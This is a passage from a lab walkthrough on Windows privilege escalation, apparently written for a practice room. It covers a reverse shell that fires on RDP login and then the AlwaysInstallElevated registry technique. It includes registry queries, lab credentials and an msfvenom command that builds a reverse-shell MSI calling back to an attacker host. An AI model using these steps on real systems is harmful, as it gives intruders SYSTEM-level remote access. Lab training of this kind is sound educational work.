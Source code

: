 <figure><img src=".gitbook/assets/image (30).png" alt=""><figcaption><p>3</p></figcaption></figure>

Start a listener on Kali and then restart the Windows VM. Open up a new RDP session to trigger a reverse shell running with admin privileges. You should not have to authenticate to trigger it, however if the payload does not fire, log in as an admin (admin/password123) to trigger it. Note that in a real world engagement, you would have to wait for an administrator to log in themselves!

`rdesktop 10.10.218.69`

### 6 - Registry - AlwaysInstallElevated

> "MSI files are package files used to install applications. These files run with the permissions of the user trying to install them. Windows allows for these installers to be run with elevated (i.e. admin) privileges. If this is the case, we can generate a malicious MSI file which contains a reverse shell.”
>
> “The catch is that two Registry settings must be enabled for this to work.\
> The “AlwaysInstallElevated” value must be set to 1 for both the local machine:\
> HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\
> and the current user: HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\
> If either of these are missing or disabled, the exploit will not work.”

#### Detection

Run winPEAS with windowscreds arguments.\


<figure><img src=".gitbook/assets/image (31).png" alt=""><figcaption><p>1</p></figcaption></figure>

Or we can Query the registry for AlwaysInstallElevated keys:

{% code overflow="wrap" lineNumbers="true" %}
```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
{% endcode %}

In this case both keys are already set to 1 (0x1)

On Kali, generate a reverse shell Windows Installer (reverse.msi) using msfvenom.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.18.214 LPORT=53 -f msi -o reverse.msi`

Transfer the reverse.msi file to the victim, start a listener on Kali and then run the installer to trigger a reverse shell running with SYSTEM privileges:
